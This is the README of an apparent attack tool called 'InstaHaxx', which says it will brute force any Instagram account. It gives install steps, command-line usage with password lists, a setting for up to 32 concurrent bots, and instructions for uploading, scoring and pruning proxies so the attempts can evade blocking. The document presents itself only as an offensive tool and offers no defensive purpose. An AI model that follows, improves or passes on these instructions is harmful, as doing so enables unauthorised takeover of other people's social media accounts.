 # InstaHaxx


this software will brute force any Instagram account.


## Tutorial

### Requirements

- python v3.9 or higher
- working proxy list

### Install (Manual Way)

```
pip install pipenv

pipenv --python 3.9

pipenv install
```

### Usage

```
python instahaxx.py -u <username> -p <passlist>
```

## Help (-h/h flag output)

```
usage: instahaxx.py [-h] [-u USERNAME] [-p PASSLIST] [-px PROXYLIST] [--prune PRUNE] [--stats] [-nc] [-m MODE]

optional arguments:
  -h, --help            show this help message and exit
  -u USERNAME, --username USERNAME
                        email or username
  -p PASSLIST, --passlist PASSLIST
                        password list
  -px PROXYLIST, --proxylist PROXYLIST
                        proxy list
  --prune PRUNE         prune the database
  --stats               get statistics of the proxies
  -nc, --no-color       disable colors
  -m MODE, --mode MODE  modes: 0 => 32 bots; 1 => 16 bots; 2 => 8 bots; 3 => 4 bots
```

## Proxies

the system needs a list of proxies to work. proxies are saved into a database by uploading

### Upload

Upload a list of proxies into the program. the proxy file must have a format of `ip:port`

```
python main.py -px <path to proxy list>
```

#### Example

```
3.238.111.248:80
206.189.59.192:8118
165.22.81.30:34100
176.248.120.70:3128
191.242.178.209:3128
180.92.194.235:80
```

### Stats

this gives an insight into the health of the proxies in the database.

```
python instahaxx.py --stats
```

### Prune

this allows the ability to get rid of proxies with a score below a given score. it is recommended that you run the `--stats` and prune the database of proxies. who have a proxy score below `Q1`.
pruning is not a requirement because the the system will automatically learn which proxies perform poorly and stop using them.
```
python instahaxx.py --prune <score in integer value>
```
